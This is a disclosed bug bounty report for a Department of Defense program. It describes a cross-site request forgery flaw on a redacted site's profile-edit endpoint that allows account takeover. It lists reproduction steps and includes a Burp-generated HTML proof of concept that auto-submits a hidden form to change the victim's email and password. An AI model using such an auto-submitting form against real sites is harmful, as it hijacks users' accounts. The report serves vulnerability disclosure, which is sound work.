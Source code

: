 # CSRF leads to Account takeover

## Report Details
- **Report ID**: 2712857
- **URL**: https://hackerone.com/reports/2712857
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-09-11T20:46:32.868Z
- **Disclosed**: 2024-12-18T19:50:19.694Z

## Reporter
- **Username**: br0x1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
During my search in this domain I found it vulnerable to CSRF so I tried to escalate it Account takeover and I succeed

## Impact

Account takeover via CSRF

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Vulnerable domain and endpoint : https://██████/account/profile/edit

1. Click on this URL: https://███/account/register and fill in the required fields.
2. You will be instructed to check your inbox for a verification email, but you can avoid this step and log in using the username and password you created on the registration page.
3. Navigate to this endpoint https://█████/account/profile/edit and attempt to modify the first name and email and password.
4. Observe this in the history of Burp Suite: https://████/account/profile/edit.
5. You can notice there is no protection against CSRF on this endpoint.
6. Executed the proof of concept (POC), and it worked.~
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://████████/account/profile/edit" method="POST">
      <input type="hidden" name="username" value="hacker" />
      <input type="hidden" name="password" value="" />
      <input type="hidden" name="cpassword" value="" />
      <input type="hidden" name="email" value="rahes53167&#64;esterace&#46;com" />
      <input type="hidden" name="save" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
